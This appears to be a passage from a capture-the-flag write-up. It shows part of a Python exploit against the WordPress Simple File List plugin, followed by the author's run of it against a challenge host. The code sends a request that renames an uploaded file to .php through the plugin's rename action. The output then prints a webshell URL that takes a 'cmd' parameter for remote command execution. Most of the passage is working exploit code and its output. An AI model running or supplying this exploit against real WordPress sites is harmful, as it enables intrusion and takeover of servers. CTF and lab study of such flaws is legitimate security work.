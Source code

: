 ```python


def move(url, filename):
    new_filename = f'{filename.split(".")[0]}.php'
    headers = {'Referer': f'{url}/wp-admin/admin.php?page=ee-simple-file-list&tab=file_list&eeListID=1',
               'X-Requested-With': 'XMLHttpRequest'}
    datas = {'eeSFL_ID': 1, 'eeFileOld': filename,
             'eeListFolder': '/', 'eeFileAction': f'Rename|{new_filename}'}
    r = requests.post(url=f'{url}{move_path}',
                      data=datas, headers=headers, verify=False)
    if r.status_code == 200:
        print(f'[ ] File moved to {url}{dir_path}{new_filename}')
    else:
        print(f'[*] Failed to move {filename}')
        exit(-1)
    return new_filename


def main(url):
    file_to_upload = generate()
    uploaded_file = upload(url, file_to_upload)
    moved_file = move(url, uploaded_file)
    if moved_file:
        print(f'[+] Exploit seem to work.\n[+] GET request for RCE via php webshell: {url}{dir_path}{moved_file}?cmd=<command to run on target>')

if __name__ == "__main__":
    if (len(sys.argv) < 2):
        usage()
        exit(-1)

    main(sys.argv[1])

```

I ran the python script and got a reverse shell..

```

┌──(gr33pp㉿machine)
└─$ python gate.py https://ctftogo-bf7890dd3685-my-stuff-1.chals.io 
[ ] File 9672.png
[ ] File uploaded at https://ctftogo-bf7890dd3685-my-stuff-1.chals.io/wp-content/uploads/simple-file-list/9672.png
[ ] File moved to https://ctftogo-bf7890dd3685-my-stuff-1.chals.io/wp-content/uploads/simple-file-list/9672.php
[+] Exploit seem to work.
[+] GET request for RCE via php webshell: https://ctftogo-bf7890dd3685-my-stuff-1.chals.io/wp-content/uploads/simple-file-list/9672.php?cmd=<command to run on target>

```

